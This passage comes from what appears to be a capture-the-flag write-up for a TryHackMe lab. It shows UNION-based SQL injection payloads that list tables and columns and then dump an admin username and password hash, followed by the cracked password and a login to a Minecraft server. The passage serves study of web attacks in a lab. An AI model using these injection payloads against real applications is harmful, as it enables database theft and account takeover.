 #### Tables

{% code overflow="wrap" %}
```sql
cloth' UNION SELECT 1,group_concat(table_name),3,4 FROM information_schema.tables WHERE table_schema="webapp"-- -

admin,stock
```
{% endcode %}

#### Columns

{% code overflow="wrap" %}
```sql
cloth' UNION SELECT 1,group_concat(column_name),3,4 FROM information_schema.columns WHERE table_name="admin"-- -

id,user,hash
```
{% endcode %}

#### Data

{% code overflow="wrap" %}
```sql
cloth' UNION SELECT 1,group_concat(user,"--",hash),3,4 FROM webapp.admin-- -

xXUltimateCreeperXx : 88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01
web_flag : THM{bbe315906038c3a62d9b195001f75008}
```
{% endcode %}

#### Cracking hash with john

```
diamond123456789 (xXUltimateCreeperXx)
```

We can login to the minecraft server now.

<figure><img src=".gitbook/assets/image (580).png" alt=""><figcaption></figcaption></figure>
